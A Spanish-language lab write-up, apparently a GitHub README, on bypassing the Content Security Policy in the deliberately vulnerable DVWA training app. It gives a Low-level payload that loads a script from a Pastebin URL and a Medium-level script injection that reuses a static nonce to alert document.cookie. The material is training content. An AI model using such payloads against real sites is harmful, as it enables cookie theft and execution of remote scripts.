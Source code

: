# Content Security Policy (CSP) Bypass - DVWA

## Descripción

Este ejercicio demuestra cómo el bypass de la política de seguridad de contenido (CSP) en **DVWA (Damn Vulnerable Web Application)** puede permitir la ejecución de JavaScript malicioso en diferentes niveles de seguridad.

### Niveles de Seguridad:

1. **Nivel Bajo (Low)**
2. **Nivel Medio (Medium)**

## Nivel de Seguridad Bajo (Low)

En este nivel, la política CSP permite la inclusión de scripts desde fuentes no seguras. Un atacante puede aprovechar esta vulnerabilidad para cargar y ejecutar scripts maliciosos desde servidores externos.

### Ejemplo de Payload en Nivel Bajo

```plaintext
payload=https://pastebin.com/dl/Lnamji4V
```

Este payload carga un script desde **Pastebin** y lo ejecuta en la página. Sin embargo, el enlace de Pastebin no funciona correctamente en este nivel, lo que hace que el payload no se ejecute.

---

## Nivel de Seguridad Medio (Medium)

En el nivel de seguridad medio, se utiliza un `nonce` para prevenir la ejecución de scripts no autorizados. Sin embargo, el valor de este `nonce` es estático y se puede predecir, lo que permite a un atacante incluirlo en sus scripts maliciosos y ejecutarlos.

### Ejemplo de Payload en Nivel Medio

```html
payload=<script nonce="TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=">alert(document.cookie)</script>
```
![Imagen del medium](assets/images/cspMedium.png)

Este payload incluye un script con un nonce estático que ejecuta una alerta mostrando las cookies del documento. Como el nonce es predecible, el atacante puede incluirlo en el payload y ejecutar su código malicioso en la página.

---

## Conclusión

Este ejercicio ilustra cómo las configuraciones de seguridad en una aplicación web, como la política CSP, pueden ser vulnerables si no se implementan correctamente. En el caso de DVWA, el nonce estático en el nivel de seguridad medio permite el bypass de la política de seguridad y la ejecución de código malicioso.

